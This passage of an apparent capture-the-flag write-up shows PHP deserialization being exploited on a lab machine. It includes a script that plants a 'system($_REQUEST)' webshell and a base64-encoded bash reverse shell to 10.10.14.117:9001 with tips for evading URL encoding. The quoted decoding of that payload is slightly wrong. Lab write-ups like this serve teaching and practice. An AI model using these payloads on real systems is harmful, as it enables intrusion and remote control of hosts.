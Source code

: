 We're on a roll now - the last part is always the easiest! Change our attack script over to a webshell payload for great success:

```php
<?php

class DatabaseExport {
        public function __construct() {
                $this->user_file = 'sp1icer.php';
                $this->data = '<?php system($_REQUEST[\'cmd\']);?>';
        }
}

$obj = new DatabaseExport;
echo urlencode(serialize($obj));
echo "\n";

?>
```

Test it the same way:

![Remote code execution proven with the whoami command.](/assets/images/tenet/rce_whoami.png)

After this point, it's fairly straightforward to cram a reverse shell payload into the `arepo` URL parameter. I use our standard from PentestMonkey: `echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzkwMDEgMD4mMQo=|base64 -d|bash` "Wait," you say. "That's not the PentestMonkey I was looking for!" Correct, dear reader, these _aren't_ the ~~droids~~ shells you're looking for - going through the web means we should base64-encode our payload to minimize the chances of bad characters breaking the payload. The b64 decodes to the following: `echo bash -i  >& /dev/tcp/10.10.14.117/9001 0>&1|base64 -d|bash` Also take note that inside the payload there's actually _two_ spaces between `bash -i` and `>&` - this is intentional in order to pad the base64 string. Originally you would find a `+` in the middle, which in URI terms equates to a space rather than a continuation of the string; this would stop the payload data _very_ short of what's needed. Adding an extra space will change the base64 output and potentially bypass this, so make sure to play with putting space characters in different places if your payload doesn't quite work out!

![Obi-Wan saying "These are not the droids you're looking for."](/assets/images/tenet/not_the_droids.gif)
